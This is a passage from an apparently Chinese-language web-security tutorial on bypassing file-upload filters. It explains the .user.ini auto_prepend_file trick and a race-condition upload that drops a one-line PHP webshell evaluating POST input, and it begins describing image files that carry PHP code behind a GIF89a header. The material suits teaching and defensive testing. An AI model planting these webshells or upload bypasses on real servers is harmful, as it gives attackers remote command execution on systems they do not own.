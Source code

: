 > 在 .user.ini 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。两个新的 INI 指令，
>
> 
>
> user_ini.filename 和 user_ini.cache_ttl 控制着用户 INI 文件的使用。
>
> user_ini.filename 设定了 PHP 会在每个目录下搜寻的文件名；如果设定为空字符串则 PHP 不会搜寻。默认值是 .user.ini。 
>
> user_ini.cache_ttl 控制着重新读取用户 INI 文件的间隔时间。默认是 300 秒（5 分钟）。

但是想要引发 .user.ini 解析漏洞需要三个前提条件。

- 服务器脚本语言为PHP
- 服务器使用CGI／FastCGI模式
- 上传目录下要有可执行的php文件

先来创建一个 .user.ini 文件并写入一下内容：



```
auto_prepend_file=x.png
```

上传 .user.ini 后，再上传一个 x.png 文件，此时 x.png 文件只要有符合 php 语言的代码就会执行。



##### 2.2.1.1.9 条件竞争绕过

竞争条件原理介绍：

网站逻辑：

- 网站允许上传任意文件，然后检查上传文件是否包含webshell,如果包含删除该文件。
- 网站允许上传任意文件，但是如果不是指定类型，那么使用unlink删除文件。

在删除之前访问上传的php文件，从而执行上传文件中的php代码。

例如：上传文件代码如下：



```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["cmd"])?>');?>
```

先进行文件上传，后进行判断与删除。利用时间差进行webshell上传。



##### 2.2.1.1.10 上传图片马配合文件解析漏洞绕过

这里介绍两种图片马的制作和使用。

**第一种：**

比较简单，直接在图片格式的文件中加入 GIF89a 图片标识头（也可以修改hex：47 49 46 38 39 61）：



```
GIF89a
<?php
phpinfo();
?>
```
